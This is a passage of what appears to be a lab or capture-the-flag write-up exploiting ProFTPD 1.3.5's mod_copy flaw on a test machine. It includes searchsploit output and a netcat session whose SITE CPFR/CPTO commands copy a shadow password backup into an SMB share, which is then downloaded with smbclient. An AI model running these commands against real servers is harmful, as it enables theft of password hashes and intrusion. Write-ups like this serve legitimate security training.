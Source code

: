 ```console
...
# Set the user and group under which the server will run.
User                            aeolus
Group                           aeolus

...
# A basic anonymous configuration, no upload directories.  If you do not
# want anonymous users, simply delete this entire <Anonymous> section.
<Anonymous ~ftp>
  User                          ftp
  Group                         ftp

```

### ProFTPD Enumeration
If we notice the version of the ProFTPD service is vulnerable to **File Copy**, as shown below:

```console
root@kali:~$ searchsploit ProFTPD 1.3.5    
----------------------------------------------------------------------------- --------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- --------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                    | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                          | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                      | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                    | linux/remote/36742.txt
----------------------------------------------------------------------------- --------------------------
```

## Exploitation
### ProFTPD Service

Taking advantage of the fact that we can copy files via ftp, we will try to copy the **shadow.back** file to the samba **share** directory of aeolus, to later download this file to the attacking machine.

```console
root@kali:~$ nc 192.168.179.136 21                    
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [192.168.179.136]
SITE CPFR /var/backups/shadow.bak
350 File or directory exists, ready for destination name
SITE CPTO /home/aeolus/share/shadow.back
250 Copy successful
quit
221 Goodbye.
root@kali:~$ smbclient //192.168.179.136/anonymous -U "" -N
Try "help" to get a list of possible commands.
smb: \> get shadow.back
getting file \shadow.back of size 1173 as shadow.back (54.5 KiloBytes/sec) (average 54.5 KiloBytes/sec)
smb: \> quit
```

